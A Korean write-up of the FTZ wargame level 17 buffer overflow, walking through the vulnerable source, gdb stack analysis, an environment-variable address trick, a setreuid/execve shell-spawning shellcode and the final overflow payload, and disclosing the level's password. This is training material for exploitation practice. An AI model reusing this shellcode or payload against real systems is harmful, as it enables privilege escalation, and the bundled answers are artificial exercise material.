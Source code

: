 ```yaml
---
title: BOF/ ftz-level17
tags: ftz
---
```


FTZ란 Free Training Zone의 약자로 hackerschool에서 배포하는 워게임입니다.  
총 20문제로 구성되어 있으며 각 문제를 격파하여 다음 레벨의 패스워드를 얻는 형식입니다.  
문제를 격파하고 다음 레벨의 bash를 획득하였다면 my-pass로 패스워드를 확인할 수 있습니다.  

사용 linux 명령어  
ls - 파일 내역 출력
cat - 파일 내용 확인  
gcc - gcc컴파일러로 컴파일하도록 하는 명령 
vim - text editor  
cp - 파일 또는 디렉터리 복사 명령  
export - 환경변수 등록 명령  
getenv - 환경변수를 모두 보는 명령  
gdb - 디버깅 도구  

 [send me email](mailto:jewel7492@gmail.com) if you have any questions.

<!--more-->

---
### FTZ Level 17
**ID : level17**  
**PASSWD : king poetic**         

<br />
{% highlight C linenos %}  
#include <stdio.h>

void printit() {
  printf("Hello there!\n");
}

main()
{ int crap;
  void (*call)()=printit;
  char buf[20];
  fgets(buf,48,stdin);
  setreuid(3098,3098);
  call();
}

{% endhighlight %}  
<br />
level11부터는 attackme라는 파일이 존재하며 hint는 attackme의 소스가 제공된다.  

**소스분석**  
15번과 비슷하지만 shell을 실행시켜주는 함수가 없다.  
따라서 void포인터 call에 쉘코드가 저장된 환경변수의 주소를 변조하도록 공격한다.  

<br />
level11부터는 쉘코드를 사용하여 공격을 한다.  
what is shellcode? - 주로 기계어 코드로 이루어진 소프트웨어 취약점을 공격하기 위한 코드.  

#### level17에서 사용한 쉘코드
**\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80**  
이 쉘코드는 /bin/bash를 실행시키도록 하는 코드이다.  

#### ftz에는 ASLR(메모리 보호기법)이 걸려있다.  
**ASLR은 프로그램을 실행할 때 마다 메모리 주소가 변경되는 메모리 보호기법**  

<br />
![그림1](/assets/ftz/level17/1.PNG)  
권한문제가 없도록 tmp디렉터리에 attackme를 복사하고 attackme의 메모리 구조를 파악하기 위해 gdb를 사용하여 intel방식으로 디스어셈블 한다.   

**어셈블리 분석**  
main+3 line을 보면 esp에 56Byte의 공간을 할당하는것을 알 수 있다.  
main+24,27 line을 보면 fgets함수에 buf를 인자로 전달하기 위한 연산을 수행하고 있음을 알 수 있다.  
따라서 buf의 주소는 ebp-56.  
main+57 line을 보면 eax를 call하기 위해 ebp-16을 eax에 대입하고 있다.  
소스를 보면 eax는 void포인터 call임을 알 수 있다. 따라서 ebp-16은 void포인터 call.  
buf와 call사이의 거리는 56-16 = 40Byte buf의 크기가 20Byte이므로 dummy값이 20Byte가 있다.   
<br />

**참고**  
esp는 스택의 최상단을 가리키는 포인터로 push, pop연산에 따라 4Byte씩 값이 변한다.  
sfp(Saved Frame Pointer)는 이전 함수의 EBP주소를 저장하고 있는 공간이다.  


메모리구조|
---|
buffer(20Byte)|
dummy(20Byte)|
call(4Byte)|
crap(4Byte)|
dummy(8Byte)|
sfp(4Byte)|
ret(4Byte)| 

<br />
![그림2](/assets/ftz/level17/2.PNG)  
쉘코드를 담은 환경변수를 만들어준다.  

<br />
![그림3](/assets/ftz/level17/3.PNG)  
기존의 환경변수 주소 얻는 코드이다.  하지만 이 소스는 정확한 주소를 얻을 수 없는 경우가 있는데 아래 그림을 보자.  

<br />
![그림4](/assets/ftz/level17/4.PNG)  
위와 같이 환경변수 주소를 얻는 소스를 실행시켜보지만 소스를 실행시키는 위치에 따라 다른 주소가 출력되는것을 볼 수 있다.  

**환경변수의 주소는 bf로 시작한다. 즉, 프로그램이 실행되면 환경변수의 데이터들이 스택 어딘가에 들어간다.**  
**따라서 프로그램 이름의 길이나 명령어의 길이등에 따라 환경변수의 주소가 바뀐다.**  

<br />
![그림5](/assets/ftz/level17/5.PNG)  
위의 소스는 프로그램명과 타깃 바이너리의 절대경로 등을 계산하여 정확한 주소값을 출력하는 소스이다.  

<br />
![그림6](/assets/ftz/level15/6.PNG)  
전에 사용하던 소스와 달리 프로그램을 실행하는 경로에 따라 출력되는 주소가 다른 경우는 발생하지 않는다.  
첫 번째 인자로는 환경변수의 이름, 두 번째 인자로는 타겟 바이너리 파일의 절대경로를 전달한다.  

<br />
![그림7](/assets/ftz/level17/7.PNG)  
위에서 얻은 환경변수의 정확한 주소로 페이로드를 작성하여 공격한다.  
void포인터 call이 포인팅하는 주소를 쉘코드가 담긴 환경변수의 주소를 포인팅하도록 한다.  

<br />

#### 페이로드
(python -c "print 'A'*40 + '\xfd\xfb\xff\xbf'";cat) | /home/level17/attackme
